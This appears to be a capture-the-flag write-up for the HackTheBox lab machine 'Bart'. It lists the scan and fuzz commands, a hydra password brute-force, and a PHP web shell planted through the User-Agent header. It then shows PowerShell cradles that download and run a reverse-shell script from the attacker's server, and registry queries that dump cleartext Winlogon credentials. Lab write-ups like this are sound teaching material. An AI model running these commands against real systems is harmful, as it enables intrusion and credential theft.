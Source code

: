 # [Bart](https://app.hackthebox.com/machines/bart)

```bash
nmap -p- --min-rate 10000  10.10.10.81 -Pn
```

![Alt text](img/image.png)

After knowing open port is just 80, let's do greater nmap scan for this port.

```bash
nmap -A -sC -sV -p80 10.10.10.81 -Pn
```

![Alt text](img/image-2.png)

While we browse the page, it redirects into 'forum.bart.htb' , let's add this into '/etc/hosts' file.

![Alt text](img/image-1.png)


From page itself 'http://forum.bart.htb/', we grab some usernames.

![Alt text](img/image-5.png)

Let's do subdomain enumeration for 'bart.htb' server.

```bash
ffuf -u http://bart.htb/ -H "Host: FUZZ.bart.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc 200
```

![Alt text](img/image-3.png)


Let's access into 'internal-01.bart.htb'

![Alt text](img/image-4.png)



On this page, I see that I cannot access into 'register.php' page via browser.

![Alt text](img/image-6.png)

Let's try to brute-force password of 'harvey' user.

```bash
hydra -l harvey -P /usr/share/wordlists/rockyou.txt internal-01.bart.htb http-post-form "/simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login:Password"
```

![Alt text](img/image-9.png)



From this result , we see that harvey: Password1 credentials works.

From enumeration, I see that this is the page which shows data from 'User-Agent' of requester.

![Alt text](img/image-7.png)


I add my malicious webshell into this request 'User-Agent' header like below.
```bash
User-Agent: dr4ks: <?php system($_REQUEST['cmd']); ?>
```

![Alt text](img/image-8.png)


![Alt text](img/image-10.png)

Our malicious webshell is now working, let's add our malicious reverse shell.

First, we download `Invoke-PowershellTcp.ps1` file into our machine, then add our stuff.

![Alt text](img/image-11.png)


Now, it's time open HTTP server to transfer our malicious file.

```bash
python3 -m http.server --bind 10.10.14.9 8080
```

![Alt text](img/image-13.png)


```bash
?cmd=powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8080/Invoke-PowerShellTcp.ps1')
```

![Alt text](img/image-12.png)

I got reverse shell from listener.

![Alt text](img/image-14.png)


Now, I do enumeration for root user, let's search 'Winlogon' to find cleartext credentials.

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

![Alt text](img/image-15.png)

Administrator: 3130438f31186fbaf962f407711faddb


Now, I have cleartext credentials. To be admin, I need to do below steps.


First, I create my reverse shell file and opens http server.

![Alt text](img/image-17.png)

```bash
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8080/Invoke-PowerShellTcp.ps1') } -Credential $cred -Computer localhost
```

![Alt text](img/image-16.png)

I got administrative reverse shell.

![Alt text](img/image-18.png)

user.txt

![Alt text](img/image-19.png)

root.txt

![Alt text](img/image-20.png)
